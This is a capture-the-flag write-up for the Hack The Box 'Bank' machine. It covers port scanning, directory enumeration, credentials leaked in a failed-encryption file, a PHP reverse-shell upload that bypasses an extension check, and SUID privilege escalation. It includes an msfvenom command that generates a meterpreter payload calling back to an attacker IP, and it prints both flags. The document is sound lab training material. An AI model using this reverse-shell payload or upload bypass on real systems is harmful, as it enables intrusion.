 # Bank
> Write-up author: jon-brandy

## Lesson learned:
- Directory listing using gobuster.
- Identifying failed hash or encryption method.
- Making a reverse shell payload using msfvenom with raw as the payload format.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/71c41239-7326-462d-9f10-0ee1ebf1d1d8)

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.10.29 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-30 00:24 PDT
Nmap scan report for 10.10.10.29
Host is up (0.029s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08eed030d545e459db4d54a8dc5cef15 (DSA)
|   2048 b8e015482d0df0f17333b78164084a91 (RSA)
|   256 a04c94d17b6ea8fd07fe11eb88d51665 (ECDSA)
|_  256 2d794430c8bb5e8f07cf5b72efa16d67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.7 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 87.32 seconds
```

1. Since the machine is running a web application, let's run gobuster.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6f2049b7-a312-46c4-b701-6910f6048bd4)


2. Interesting there's an upload directory, anyway let's open the web app.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6fb85d14-3f41-4138-98e9-a8e600266a05)


3. Already tried several sqli, it seems the login page is not vulnerable to sqli.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/60203418-ab63-4ed7-bbff-3fbbd563e1b4)


4. Let's check the **balance-transfer**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d4abdeee-a79f-41cc-af1c-7f22747f9b59)


5. Found many hashed or encrypted (?) transaction, but the odd is, there is one transaction with smaller size.
6. The smaller size might indicate failed hash or encryption.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1d359f3f-5ba4-4f73-a18b-a7adeb5ed28e)


> CHECKING THE SMALLER SIZE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3f953452-e518-420b-a4fb-a0af0b8f5d37)


7. Let's use the cred to login!

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8ecfe418-37e8-4773-be37-3abe6f5fa1d7)


8. At the support option, found a file upload. This could be our interest.


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2d60b788-93a2-4749-8f1f-1c09e42578ab)


> PAGE SOURCE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ca5a1cad-bf5b-4c8c-a88d-92477279b8ca)


9. Turns out it is, it does not sanitize what's inside the file, it just validates the extension must be .htb.
10. Knowing this we can send our PHP payload for reverse shell.

> USING TEMPLATE FROM MSFVENOM

```bash
msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.14.26 lport=1337 -f raw > reverse_shell.htb
```

11. Set a listener on port 1337, then upload the file.
12. Next, to trigger the reverse shell, let's opened the file we already within this endpoint --> `/uploads/reverse_shell.htb`.
13. Anyway, somehow i failed to get the shell using the template from msfvenom. So i used the template from pentest-monkeys.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bbbfe336-c293-41f1-ac0a-cc67723edfd0)


## USER FLAG

```
30283e49d8e58ff28c92e1823aa1149c
```

> GETTING ROOT FLAG

14. When tried to check the sudo permission, got this response.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/25dd5d39-3637-4910-8f5a-fdaaf6e89541)


15. Knowing this, then our objective to get privesc is to find non-standar SUID file.
16. But when I want to use LinEnum, got permission denied.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b42ba521-6297-44ec-a395-92fe41ca38fd)


17. I think this is not the intended one, i searched it manually.
18. Found a directory named htb inside `/var`.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f09974d2-d57e-4f2d-b19b-819f51e0d98e)


> OUR INTEREST --> EMERGENCY FILE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/948ee62e-ef4c-45d0-a359-7dff7d7783aa)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/184c27ca-a3dd-425c-af15-efe1ca7a7ddd)


19. Great! We can get root simply by running this file.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/763a47cf-3d0a-4092-9828-3dc7c6137dc3)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a25796b9-9bbc-4245-9812-65471cb9e805)


## ROOT FLAG

```
ed936fca480d4bfe06be0ca3aff3bccd
```




